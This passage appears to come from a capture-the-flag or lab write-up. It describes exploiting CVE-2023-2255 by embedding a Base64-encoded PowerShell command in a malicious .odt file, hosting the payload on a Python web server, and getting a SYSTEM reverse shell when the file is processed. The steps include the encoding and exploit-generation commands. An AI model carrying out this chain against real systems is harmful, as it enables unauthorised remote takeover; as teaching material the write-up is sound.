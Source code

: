 We then convert the payload to Base64 to avoid formatting issues:

```bash
cat payload | iconv -t utf-16le | base64 -w 0;echo
```

![](screenshots/payload_utf16.png)

Next, we host the payload using a simple Python web server:

![](screenshots/reverse_ps1.png)

Now we generate a malicious .odt document with the payload embedded, using the exploit script for CVE-2023-2255:

```bash
python3 CVE-2023-2255.py --cmd 'cmd /c powershell -enc <BASE64_PAYLOAD>' --output exploit.odt
```

![](screenshots/exploit_odt.png)

Finally, we upload the malicious exploit.odt file into the Important Documents folder.
After a few seconds, the file was automatically processed, triggering our payload and granting a reverse shell as SYSTEM:

![](screenshots/reverse_ps1_executed.png)
